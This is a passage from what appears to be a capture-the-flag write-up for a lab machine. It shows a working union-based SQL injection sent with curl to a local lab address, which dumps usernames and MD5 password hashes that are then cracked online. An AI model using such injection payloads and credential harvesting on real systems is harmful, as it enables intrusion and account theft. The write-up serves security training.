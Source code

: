 ![](/assets/images/hackme/screenshot-15.png)

I saved the credentials into a file for easy use later.

```bash
root@kali:~$ curl -sL -b "PHPSESSID=tgq6veet5bs049gijo8pblgo3o" "http://192.168.179.186/welcome.php" --data "search='+and+1=2+union+select+concat_ws(':',user,pasword),2,3+from+users+#" | grep 'SGD' | sed 's/<td>/\n/g' | grep -Pv '^[\d\s]' | sed 's/\(.*\)<.*/\1/' | tee creds.txt 
user1:5d41402abc4b2a76b9719d911017c592
user2:6269c4f71a55b24bad0f0267d9be5508
user3:0f359740bd1cda994f8b55330c86d845
test:05a671c66aefea124cc08b76ea6d30bb
superadmin:2386acb2cf356944177746fc92523983
test1:05a671c66aefea124cc08b76ea6d30bb
admin:5f4dcc3b5aa765d61d8327deb882cf99
root@kali:~$
```

Then the hashes were cracked in [https://hashes.com](https://hashes.com).

![](/assets/images/hackme/screenshot-16.png)
